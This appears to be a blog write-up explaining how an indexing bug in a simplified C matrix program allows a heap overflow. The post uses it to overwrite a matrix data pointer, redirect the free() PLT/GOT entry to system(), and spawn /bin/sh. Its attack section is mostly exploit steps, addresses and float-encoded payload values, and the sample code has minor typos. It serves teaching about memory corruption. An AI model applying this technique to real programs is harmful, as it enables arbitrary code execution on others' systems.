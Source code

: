 ```yaml
---
layout: post
title: A Tale Of Indices
tags: c-cpp
excerpt: Exploting bad indexing code to mess with malloc and the PLT
---
```


This is the story of how bad indexing code can lead to an exploit. Even though
this is on the heap, most of it doesn't actually involve malloc that much, but
relies on a specific feature of it: memory blocks are adjacent. However, it does
involve messing with the plt!

<!--more-->

# A Wild Bug Appears

First, the code. This is not exactly the original code, but simplified quite a
bit (removing the input logic, much checking and other functionality).

```c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug? Hint: it's in `get_addr`. The matrix indexing is
incorrect, it should be `row * mat->cols + col`. See the difference? This
overflow is what allows the shell to be spawned.

# A note on float conversion

In this program, memory is only accessible as floats. While inconvenient, this
is still usable as floats also take up the same space as ints, 4 bytes. With
enough digits, we can be guaranteed to get an identical value when we set it. To
find this value, we can use a union:

```c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings. Since the system is little endian (x86), we
just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

# Exploit Preparation

Firstly, a bit on `malloc()`. It obtains memory from the system (usually via
`mmap()`), and divides it up into chunks. These are then allocated when
requested by the programmer. Since the block given is the first that fit the
size, this results in the matrices and their descriptors being allocated right
next to each other:


{: .boxed }
|-|-||-|-||-|-||-|-|
|(sz)|`mat1`||(sz)|`mat1->data`||(sz)|`mat2`||(sz)|`mat2->data`|

As a result, we can exploit the bad indexing to overwrite the matrix descriptor
(in this case mat2) from the previous data block (mat1->data). Through this, we
can overwrite the data pointer of mat2 to whatever we want, allowing us to write
to any location in memory. One potential target is the plt (procedural link
table), which lists the location of functions of dynamically loaded libraries
(e.g. libc). However, one specific entry is of interest - `free()`. When
matrices are released, this is called on user-editable data, and with that as
the only argument. `system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so
can `system()`. However, it is always at the same offset from `free()`, and we
can use that, along with the existing plt entry to calculate the position of
`system()`.

# Actual Exploit

First, we need to get some information:

```terminal
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit. First, we create 2 matrices which have more
rows than columns (e.g. 8*7). We then create and release another matrix. This is
required to initialize the plt entry to the actual location of `free()`
(`__libc_free()`), from which we can figure out the location of `system()` using
the offset. We now can use the overflowing get_addr logic to overwrite mat2's
data pointer to point to 0x0804a10c (the address of the plt entry).

```c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer? Since it's
the last element of the struct, we search down from the top, until we get to the
second non-zero value. Why second? Because the first would be the size of the
next block, and we have no need overwriting that. From my tests, it appears that
with an 8*7 matrix, the value is located at [7,4], which we overwrite with the
float equivalent of 0x0804a10c.

```c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address
of `__libc_free()`. We can add the offset (-228656) to this to get the address
of `__libc_system()` and overwrite the exiting value with this.

```c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is
"/bin/sh" (you can use any command here though). And we execute the command by
freeing that matrix.

```c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
